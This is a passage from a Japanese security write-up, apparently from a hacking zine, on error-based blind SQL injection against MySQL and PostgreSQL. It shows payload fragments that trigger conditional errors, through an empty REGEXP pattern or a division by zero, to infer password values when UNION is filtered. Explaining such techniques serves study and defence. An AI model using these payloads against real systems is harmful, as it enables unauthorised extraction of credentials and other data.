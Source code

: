 ■0x04.) バグに頼らない方法

　str_to_date()にNULLを与えてSQL文を異常終了させる方法はあくまでもバグに
頼ったものであり、おそらく次のバージョンでは使えなくなってしまう。そこで
他の関数を色々試してみたのだが、結局NULLを有効に使うことのできる方法は見
つからなかった。そこで、さらに色々な値を引数に与えてエラーが起こる関数を
探したところ、正規表現を使う際に利用できるREGEXPキーワードで故意にエラー
を起こすことができることを発見した。REGEXPキーワードに対して空の文字列を
与えると、次のようにエラーが発生するのだ。

-----
mysql> select 'HOGE' regexp '^HO';
+---------------------+
| 'HOGE' regexp '^HO' |
+---------------------+
|                   1 |
+---------------------+
1 row in set (0.00 sec)

mysql> select 'HOGE' regexp '';
ERROR 1139 (42000): Got error 'empty (sub)expression' from regexp
-----

　この現象を利用すると、次のようにしてデータを探ることが可能になる。

-----
（略） where 'a' regexp ( if( ( select count(*) from hoge where password like 'A%' ), '', 1 ) );
-----

　IFキーワードを利用して、該当するデータがある場合には空の文字列を、そう
でない場合には1をREGEXPに与えている。この例では「Aで始まる」レコードがあ
る場合にはSQLエラーが発生し、そうでない場合には正常終了する。

　このようにして、MySQLではUNIONキーワードが禁止されていても、条件によっ
てSQLエラーを発生させる方法でデータの取得が可能であることがわかった。


■0x05.) PostrgeSQLの場合

　同じように、PostgreSQLで故意にエラーを起こす方法がないか探してみた。す
ると、あっけなく見つかった。ゼロ除算である。MySQLの場合には結果がNULLにな
るが、PostgreSQLではSQLエラーが発生するのだ。

-----
template1=# select 1/0;
ERROR:  floating point exception! The last floating point operation either exceeded legal ranges or was a divide by zero
-----

　これを利用し、次の方法でデータを探ることができる。

-----
（略） where 1 = 1/( select count(*) from hoge where password like 'A%' );
-----
